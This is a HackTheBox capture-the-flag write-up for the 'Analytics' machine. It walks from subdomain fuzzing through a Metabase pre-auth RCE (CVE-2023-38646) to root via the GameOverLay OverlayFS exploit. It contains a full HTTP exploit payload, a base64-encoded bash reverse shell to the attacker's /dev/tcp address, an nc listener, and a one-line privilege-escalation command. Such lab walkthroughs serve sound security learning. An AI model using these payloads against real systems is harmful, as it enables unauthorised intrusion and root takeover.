


## Summary
[Analytics](https://app.hackthebox.com/machines/569) is an Easy rated HackTheBox machine that involves fuzzing and finding a new subdomain. The new subdomain is running a software with a known CVE for unauthenticated remote command execution. This vulnerability can be leveraged to attain a reverse shell inside a Docker container. Credentials for the host system can be found in the environment variables. Once on the host machine, manual enumeration can be used to uncover another public CVE for privilege escalation to the root user.
### Nmap
As always, I start out with an nmap scan. `-sC` to use default enumeration scripts, `-sV` to enumerate versions, and `-v` for verbose mode, to display ports as they're found.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap initially comes back with the message `Did not follow redirect to http://analytical.htb/`. I add `analytical.htb` to my `/etc/hosts` file, and rerun nmap on port 80. Nmap has some default scripts that won't won't run properly if the domain name isn't in `/etc/hosts`

Only 2 ports open, SSH and HTTP. HTTP is  a site for a data analysis company, providing a service for businesses to better analyze and use their data.

To test if the site is running on php, python, or if it's just a static site, I browse to `/index.html`. Which gets a hit. `/index.php` and `/index` come back with a 404.

I run `feroxbuster` on this site with `-A` to use a random user agent and `-n` to prevent recursion. Nothing too interesting comes back. Just a bunch of css and javascript.

```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://analytical.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
301      GET        7l       12w      178c http://analytical.htb/images => http://analytical.htb/images/
301      GET        7l       12w      178c http://analytical.htb/css => http://analytical.htb/css/
301      GET        7l       12w      178c http://analytical.htb/js => http://analytical.htb/js/
200      GET        9l       68w     2462c http://analytical.htb/images/call-icon.png
200      GET        7l       61w     2837c http://analytical.htb/images/fb-icon.png
200      GET        9l       62w     2803c http://analytical.htb/images/fb-icon-2.png
200      GET       14l       84w     4530c http://analytical.htb/images/icon-4.png
200      GET        7l       58w     2965c http://analytical.htb/images/twitter-icon.png
200      GET      452l     1395w    11727c http://analytical.htb/css/responsive.css
200      GET      370l     1201w     9645c http://analytical.htb/js/custom.js
200      GET        5l       47w     1720c http://analytical.htb/images/phone-icon.png
200      GET        5l       51w     1831c http://analytical.htb/images/mail-icon.png
200      GET      213l     1380w    11324c http://analytical.htb/js/jquery-3.0.0.min.js
200      GET        9l       85w     3701c http://analytical.htb/images/icon-2.png
200      GET        5l       55w     1485c http://analytical.htb/images/map-icon.png
200      GET        8l       58w     3302c http://analytical.htb/images/instagram-icon-2.png
200      GET        3l       43w     1102c http://analytical.htb/images/icon.png
200      GET        6l       73w     3248c http://analytical.htb/css/owl.carousel.min.css
200      GET        4l       45w     1538c http://analytical.htb/images/email-icon.png
200      GET        8l       73w     3030c http://analytical.htb/images/twitter-icon-2.png
200      GET        8l       70w     3330c http://analytical.htb/images/instagram-icon.png
200      GET       10l       70w     3839c http://analytical.htb/images/icon-3.png
200      GET      817l     1328w    13877c http://analytical.htb/css/style.css
200      GET        6l      352w    19190c http://analytical.htb/js/popper.min.js
200      GET        7l      896w    70808c http://analytical.htb/js/bootstrap.bundle.min.js
200      GET        5l      478w    45479c http://analytical.htb/js/jquery.mCustomScrollbar.concat.min.js
200      GET        1l      870w    42839c http://analytical.htb/css/jquery.mCustomScrollbar.min.css
200      GET        5l     1287w    87088c http://analytical.htb/js/jquery.min.js
200      GET        7l     1604w   140421c http://analytical.htb/css/bootstrap.min.css
200      GET      995l     5511w   461589c http://analytical.htb/images/img-2.png
200      GET     1111l     6288w   520385c http://analytical.htb/images/img-4.png
200      GET     1225l     7999w   640669c http://analytical.htb/images/img-1.png
200      GET     1077l     6289w   516092c http://analytical.htb/images/img-3.png
200      GET    18950l    75725w   918708c http://analytical.htb/js/plugin.js
200      GET      364l     1136w    17169c http://analytical.htb/
[####################] - 55s    30041/30041   0s      found:35      errors:0      
[####################] - 54s    30000/30000   555/s   http://analytical.htb/
```
Next I run `ffuf` to find any new subdomains. I let `ffuf` run for half a second and then stop it. All the false positives are coming back with a size of `154`, I add `-fs 154` to filter a size of 154, and run it again.
```
┌──(kali㉿Kali)──[13:40:53]──[~/htb/Machines/Analytics]
└─$ ffuf -u http://analytical.htb -H 'Host: FUZZ.analytical.htb' -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://analytical.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.analytical.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

data                    [Status: 200, Size: 77857, Words: 3574, Lines: 28, Duration: 142ms]
:: Progress: [19966/19966] :: Job [1/1] :: 452 req/sec :: Duration: [0:00:44] :: Errors: 0 ::
```
This time, `ffuf` found the subdomain `data`, which I add to `/etc/hosts`. The `data` subdomain leads to login portal for  `metabase`



[Metabase](https://www.metabase.com/) Is an analytics tools that allows businesses to analyze their data on their own.
There's a recent [CVE](https://nvd.nist.gov/vuln/detail/CVE-2023-38646) for metabase for a pre-auth RCE. Here is the original blogpost about the discovery: https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

Vulnerable versions are before 46.6.1, by going to `http://data.analytica.htb/api/session/properties`, we can find the version to be `46.6`, so this is likely vulnerable! I `curl` the endpoint and pipe it to `jq` to make the `json` easier to read. There is still a ton of output so I `grep` for `vers`. I `-i` to be case insensitive, and `-A4` to display 4 lines after the found line.
```bash
┌──(kali㉿Kali)──[13:47:43]──[~/htb/Machines/Analytics]
└─$ curl -s http://data.analytical.htb/api/session/properties | jq . | grep -iA 4 vers
<...SNIP...>
  "version": {
    "date": "2023-06-29",
    "tag": "v0.46.6",
    "branch": "release-x.46.x",
    "hash": "1bb88f5"
```
That blogpost has a working payload that I used to get a shell on the box.
The first thing I need is the `setup-token`, which once again I can find with `curl`
```bash
┌──(kali㉿Kali)──[13:58:57]──[~/htb/Machines/Analytics]
└─$ curl -s http://data.analytical.htb/api/session/properties | jq . | grep -iA 4 token
<...SNIP...>
  "setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
  "application-colors": {},
  "enable-audit-app?": false,
  "anon-tracking-enabled": false,
  "version-info-last-checked": null,
```
I replace the token from the blogpost with this one.
Inside the payload in the `db` section is this line
```bash
exec('bash -c {echo,YmFzaCAgLWkgPiYvZGV2L3RjcC8xMC4xMC4xNS4zNC85MDAxICAwPiYx}|{base64,-d}|{bash,-i}')
```
The string after the `echo` command is a base64 encoded reverse shell. So all I need to do is encode my own reverse shell, and replace the one that's already there.
```bash
# I add spaces in a few spots to get rid of "+" and "="
echo 'bash -i  >& /dev/tcp/<MY IP>/9001  0>&1  ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvPE1ZIElQPi85MDAxICAwPiYxICAK
```
I then browse to `http://data.analytics.htb/api/setup/validate` and capture the request in Burpsuite. I right click and hit "change request method" to switch it to a POST request. I also remove all of the headers except "Host" and "Content-Type" and "Content-Length". I change the "Content-Type" header to `application/json` I then copy in the payload and send it off
```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 826

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTUuMzQvOTAwMSAgMD4mMSAK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
Unfortunately, I am in a Docker container, so not out oft he woods yet. The container has no `python`, no `script`, I can't use `vi`, so I end up using `rlwrap` to get a proper tty. I kill my current shell, and start another listener with `rlwrap` in front of it, and send off the reverse shell payload again,
```bash
rlwrap nc -lvnp 9001
```
I poke around on the box for a bit. I find the `metabase.db` folder in `/` and exfil it back to my box to check out. Don't end up getting too much from it.

I eventually I run `printenv`, to print the environment variables, and sitting right there is a set of credentials.
```bash
ca0612546179:/$ printenv
<...SNIP>
META_USER=metalytics
META_PASS=<REDACTED>
<...SNIP...>
```
At first I thought these were credentials to log into the Metabase instance, but that failed. After that I tried them with SSH, and got a shell on the host system.
## Root Shell
### GameOverLay Exploit
Once on the box I begin poking around. I run `uname -a` and `cat /etc/os-release`. The VM is running Ubuntu 22.04 and kernel 6.2 I search for any known vulnerabilities in this environment and eventually find [this blog post](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability), which is about [CVE-2023-2640](https://nvd.nist.gov/vuln/detail/CVE-2023-2640) and [CVE-2023-32629](https://nvd.nist.gov/vuln/detail/CVE-2023-32629), aka the GameOverLay exploit. This an exploit leading to local privilege escalation. I highly recommend reading the blog post, but the short version is that it's an exploit in the OverlayFS filesystem, which allows a low-privileged user to create a binary with arbitrary capabilities, which the user can then use to set their UID to 0, aka root.

According to the blog post, Ubuntu 22.04, as well as kernel 6.2 should be vulnerable. The exploit code is actually very simple, and can be used as a one liner in bash. I find exploit code in [this github repo](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629), as well as [this one](https://github.com/vinetsuicide/CVE-2023-2640-CVE-2023-32629) 
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```
Now let's break down this command.

	`unshare -rm sh -c`:
		`unshare`:  Is used to run a command with some namespaces unshared from the parent.
		
		`-rm`: the `-r` flag makes the shell root regardless of the UID, and `-m` creates a new mount namespace.
		
		`sh -c`: Runs the following command in a new shell, in this case `sh`.
	Inside the `sh -c` command
		
		`mkdir l u w m `: Creates 4 directories named `l`, `u`, `w`, `m`.
		
		`cp /u*/b*/p*3 l/`: Copies the Python3 binary to the `l` directory. The `*` act as wildcards, which should extend to `/usr/bin/python3`, likely used to shorten the command.
		
		`setcap cap_setuid+eip l/python3`: Gives the `CAP_SETUID` capability to the `python3` binary located in the `l` directory. The allows any process running the binary to change it's UID (User ID)
		
		`mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m`: Mounts an overlay filesystem.
			`lowerdir=l`: The `l` directory is the lower, read only layer.
			
			`upperdir=u`: The `u` directory is the upper, writable layer
			
			`workdir=w`: The `w` directory is for temp storage by the overlay filesystem
			
			`m`: The `m` directory is used as the mount point for the overlay filesystem
			
			`touch m/*;`: This command creates an empty file for every file in the `m` directory, which in this case will essentially replicate the directory structure of the lowerdir, `l`.
	
	After the initial command `&&`
		`u/python3 -c`: Runs a command with `python3`, which now has the `CAP_SETUID` from the upper, `u` directory
		
		Inside the python command:
			`import os; os.setuid(0)`: Imports the `os` module, and changes the current process UID to 0 (root)
			`os.system`: Execute the following command in a system shell
				
				`cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash`: Copies the bash binary into `/var/tmp` and makes in an SUID binary
				
				`var/tmp/bash -p`: Runs the copied bash binary with the `-p` options, which will preserve the effective UID and GID values, essentially granting root access
				
				`rm -rf l u m w /var/tmp/bash`: Cleans up by removing the created directories and the copied `bash` binary.


Namespaces are a feature of the Linux kernel that partitions kernel resources in a way that one set of processes sees one set of resources, while another set of processes sees a different set of resources. Usually, processes inherit their namespace from their parent process, meaning they share the same "view" of the system. However, you can start a new process with a separate set of namespaces from it's parent. This effectively starts the new process in a different environment than its parent. In this command, we are creating a new environment for the `sh` shell to run in. We are then giving `python3` the `CAP_SETUID` capability, using it create an SUID copy of `bash`, and then starting a new shell with that SUID `bash` binary. The GameOverLay exploit effectively "tricks" the Ubuntu kernel into copying the files we created in our new unshared namespace, back into the rest of the system.
#### Trouble Shooting the Exploit.
Something that really tripped me up with this, is that this exploit doesn't seem to work when run in the `/dev/shm` directory. I'm not entirely sure why. `/dev/shm` is ***sh***ared ***m***emory, it's ram. Any files created in this directory are actually created in ram, and not to disk. `/dev/shm` is my usual working directory on boxes for this reason. So for awhile, I really didn't think this exploit worked for whatever reason, as I was running it in `/dev/shm`. I had successfully executed linpeas and pspy in this directory, so I knew I had execute permissions in `/dev/shm`. My best guess for why the exploit failed here, is that because it is ram, Linux has different rules for what can be done with filesystems. The exploit relies on messing with the overlay file system, and my best guess is that Linux, or Ubuntu, doesn't like that being done in ram, and needs it done to disk. When I ran the exploit in `/tmp`, it worked just fine, no problem.
### Root Shell
After successfully troubleshooting the exploit and getting it to work, I have a root shell!  I can now read the root flag. Very cool.
```bash
root@analytics:/tmp# cat /root/root.txt
4beed6e--------------------
```